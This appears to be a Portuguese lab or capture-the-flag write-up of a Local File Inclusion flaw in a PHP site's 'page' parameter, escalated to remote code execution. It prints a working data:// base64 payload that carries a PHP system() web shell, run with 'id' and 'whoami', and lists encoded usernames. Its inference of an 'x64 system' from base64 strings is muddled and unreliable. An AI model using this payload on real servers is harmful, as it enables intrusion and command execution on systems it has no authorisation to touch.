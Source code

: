 # 💉 No **OSINT** do site identificamos a possibilidade de existência de uma página com fraquezas de **injeção PHP**.  
Vamos detalhar a análise realizada: 💉💉💉

---

## 📌 Página em questão

<img width="1174" height="850" alt="image" src="https://github.com/user-attachments/assets/8e4eab61-e50f-4932-a89c-153d68a347c5" />

A página pode conter outros tipos de injeções, mas a vulnerabilidade encontrada foi no **parâmetro da URL**:

👉 Exemplo:  
```
http://rh.businesscorp.com.br/index.php?page=submit
```

---

## 💻 Possíveis Injeções LFI

O site pode ser suscetível a **Local File Inclusion (LFI)**.  
Para testar, basta inserir um comando simples como `ls` no final do parâmetro `page`:

👉 Exemplo:  
```
http://rh.businesscorp.com.br/?page=ls
```

<img width="1670" height="267" alt="image" src="https://github.com/user-attachments/assets/8d1545e8-3c03-4939-938a-efea531ff1c2" />

🔎 O **erro retornado** já revela informações importantes sobre o servidor:

```
Warning: include(): Failed opening 'ls.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') 
in /var/www/html/index.php on line 54
```

---

## 🧪 Testes Realizados

### Teste 2:
<img width="995" height="207" alt="image" src="https://github.com/user-attachments/assets/ddd1206a-14f5-4ec6-abfd-5a8ce98cd182" />

### Teste 3:
<img width="987" height="173" alt="image" src="https://github.com/user-attachments/assets/44b6b4d2-7e4d-41cb-b10c-b6898e0d6810" />

Com base nos comandos e erros retornados, foi possível **ajustar a exploração da vulnerabilidade**.

---

## 🔑 Credenciais Encontradas

Durante as análises, com base em uma lista que criei a partir da vulnerabilidade da porta 22, observei indícios de credenciais em **Base64**:

- root → `cm9vdA==`  
- ftp → `ZnRw`  

Isso sugere que o LFI pode estar relacionado a um **sistema x64**, abrindo espaço para **testes de injection em Base64**.

---

## ⚙️ Exploração com Data Wrapper (RCE)

Pesquisando sobre possíveis **RCEs (Remote Code Execution)**, encontrei que é possível usar `data://text/plain;base64` para injetar comandos.

### ▶️ Executando `id`
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=id
```

<img width="1461" height="193" alt="image" src="https://github.com/user-attachments/assets/ba17d026-9e13-45e5-ac4c-1ac20da10a77" />

⚠️ A resposta não aparece diretamente no site, mas analisando via **F12 (DevTools)**, conseguimos verificar que o comando foi processado corretamente.

---

### ▶️ Executando `whoami`
```
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=whoami
```

<img width="1096" height="194" alt="image" src="https://github.com/user-attachments/assets/c9d29a71-2c0a-489a-a182-f5e6d63bf92a" />

---

# 📖 Conclusão

✔️ O site apresenta vulnerabilidades de **LFI** que podem evoluir para **RCE** utilizando técnicas de **Base64 Data Wrapper**.  
✔️ Foram identificadas credenciais em **Base64**, sugerindo possível exploração de acesso.  
✔️ Apesar de não exibir diretamente no navegador, os comandos executados podem ser verificados no **código-fonte via DevTools**.

⚡ Essa análise confirma o risco de exposição crítica do sistema.

---
✍️ Relatório finalizado com base em testes realizados manualmente.
